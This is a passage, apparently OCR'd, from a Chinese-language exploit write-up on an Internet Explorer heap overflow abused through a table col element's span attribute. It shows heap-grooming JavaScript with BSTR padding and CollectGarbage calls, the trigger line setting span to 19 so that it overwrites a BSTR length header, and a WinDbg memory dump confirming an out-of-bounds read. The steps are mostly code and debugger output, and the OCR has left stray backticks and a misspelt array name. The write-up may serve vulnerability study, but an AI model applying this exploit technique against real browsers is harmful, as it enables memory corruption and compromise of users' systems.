 ```
            arr[i] = padding.substring(0, (0x100-6)/2);
            // A, bstr = B
            arr[i+1] = filler.substring(0, (0x100-6)/2);
            // B
            var obj = document.createElement("button");
            div_container.appendChild(obj);
     `}`

        for (var i=200; i&lt;500; i+=2 ) `{`
            rra[i] = null;
            CollectGarbage();
        `}`

Math.cos(3,2) 
&lt;/script&gt;

&lt;table style="table-layout:fixed" &gt;&lt;col id="1" width="41" span="9" &gt; &lt;/col&gt;&lt;/table&gt;
&lt;table style="table-layout:fixed" &gt;&lt;col id="2" width="41" span="9" &gt; &lt;/col&gt;&lt;/table&gt;
&lt;table style="table-layout:fixed" &gt;&lt;col id="3" width="41" span="9" &gt; &lt;/col&gt;&lt;/table&gt;
```

**堆布局完成之后，修改span值，发生堆溢出。**

只需要覆盖0x214的长度，就能覆盖BSTR（“BBBB”）的长度。而0x214=19*0x1c，所以将col的span参数修改为19，写入的数据正好能够覆盖到BSTR的头部。

填写的内容之前

```
var evil_col = document.getElementById("132");  
evil_col.span = "19";
```

我们选择修改也就是最后一个`&lt;table&gt;`元素（id=132），输出log之后找到最后一个vulheap（对应id=‘132’的col元素），查看其内存空间。BSTR的头部已经被覆盖为了00010048，于是获得一个越界读取的能力。<br>
[溢出后]vulheap

```
0:016&gt; dc 005258c0 L100
005258c0  00001004 00001004 00001004 00000000  ................ &lt;--vulheap
005258d0  00450045 00450041 00010048 00001004  E.E.A.E.H.......
005258e0  00001004 00001004 00000000 00450045  ............E.E.
005258f0  00450041 00010048 00001004 00001004  A.E.H...........
00525900  00001004 00000000 00450045 00450041  ........E.E.A.E.
00525910  00010048 00001004 00001004 00001004  H...............
00525920  00000000 00450045 00450041 00010048  ....E.E.A.E.H...
00525930  00001004 00001004 00001004 00000000  ................
00525940  00450045 00450041 00010048 00001004  E.E.A.E.H.......
00525950  00001004 00001004 00000000 00450045  ............E.E.
00525960  00450041 00010048 00001004 00001004  A.E.H...........
00525970  00001004 00000000 00450045 00450041  ........E.E.A.E.
00525980  00010048 00001004 00001004 00001004  H...............
00525990  00000000 00450045 00450041 00010048  ....E.E.A.E.H...
005259a0  00001004 00001004 00001004 00000000  ................
005259b0  00450045 00450041 00010048 00001004  E.E.A.E.H.......
005259c0  00001004 00001004 000000fa 00410041  ............A.A.
005259d0  00410041 00010048 00001004 00001004  A.A.H...........
005259e0  00001004 00410041 00410041 00410041  ....A.A.A.A.A.A.
005259f0  00010048 00001004 00001004 00001004  H...............
00525a00  00410041 00410041 00410041 00010048  A.A.A.A.A.A.H...
00525a10  00001004 00001004 00001004 00410041  ............A.A.
00525a20  00410041 00410041 00010048 00001004  A.A.A.A.H.......
00525a30  00001004 00001004 00410041 00410041  ........A.A.A.A.
00525a40  00410041 00010048 00001004 00001004  A.A.H...........
```